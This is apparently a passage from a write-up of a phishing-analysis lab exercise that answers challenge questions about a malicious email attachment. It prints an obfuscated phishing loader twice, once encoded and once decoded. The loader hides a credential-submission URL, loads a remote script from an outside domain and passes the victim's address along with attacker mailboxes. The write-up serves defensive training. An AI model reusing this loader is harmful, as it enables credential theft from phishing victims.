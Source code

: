 ```javascript
<script>document.write(unescape('<html>
<script>function Y_5_4_8(str) {str = str.replaceAll("=", '-');return str;};lp = "aHR0cHM6Ly93aXRoaGFuZHNtYWtlc3RhbmQuY29tL3N1Ym1pdG9mZmljZS5waHA="</script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script>document.write("<script src=\"" atob('aHR0cHM6Ly9ib21iZXJvc2JhcmNlbG9uYXF1aW5kaW8ub3JnL0RGTlhCRkVXR1dITUgsRkZDPUxKRkRIR0RTVFJIUkdFTlNETUIlMjJLSEpHVkRITUJCWkJERkdISk5GQy9waW4uanM') "?5QpcPutKeE=" Y_5_4_8('cmFjaGFlbEB0eXJlbGxjb3JwLmlv') "&5QpcPutKeETeJHu=" Y_5_4_8('d2hvc2VuZG1lMTAwMDAwMEB5YW5kZXguY29tLCBuZXRzb2wyMkB5YW5kZXgucnUsIG5ldHNvbDIyQHlhbmRleC5jb20sIGZvcndhcmRvdmVydG9tZWtpbmczNjBAZ21haWwuY29t') "\"><\/script>");</script>
</html>'))</script>
```

The second line of code gives us our function name, and also sets it as a string (str)

`Answer: Y_5_4_8`
### Decoded Payload URL  What is the decoded URL or domain extracted from the obfuscated payload?  Answer format: full URL or domain 

There appear to be several Base64 encoded strings in the Javascript, so I will decode them and make the script a bit more readable:

```javascript
<script>document.write(unescape('<html>
<script>function Y_5_4_8(str) {str = str.replaceAll("=", '-');return str;};
lp = "https://withhandsmakestand.com/submitoffice.php"</script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script>document.write("<script src=\"" atob('https://bomberosbarcelonaquindio.org/DFNXBFEWGWHMH,FFC=LJFDHGDSTRHRGENSDMB%22KHJGVDHMBBZBDFGHJNFC/pin.js') "?5QpcPutKeE=" 
Y_5_4_8('rachael@tyrellcorp.io') "&5QpcPutKeETeJHu=" Y_5_4_8('whosendme1000000@yandex.com, netsol22@yandex.ru, netsol22@yandex.com, forwardovertomeking360@gmail.com') "\"><\/script>");</script>
</html>'))</script>

```

We actually find a few URL's in the script, including `"https://withhandsmakestand.com/submitoffice.php"`, `"https://bomberosbarcelonaquindio.org"`, and `"https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"`.  I am pretty confident that the googleapis one is not the one we are looking for here.  If I have to pick one as the correct answer, I would guess that the "bomberosbarcelonaquindio.org" is what we are looking for.

`Answer: bomberosbarcelonaquindio.org`

### MIME Boundary  What is the boundary string used to separate parts in the MIME message?  Answer format: boundary text without quotes 

For this one, we go back to Phishtool and view the email source, scrolling down until we see the MIME section.  Line 60 specifically contains our first boundary.
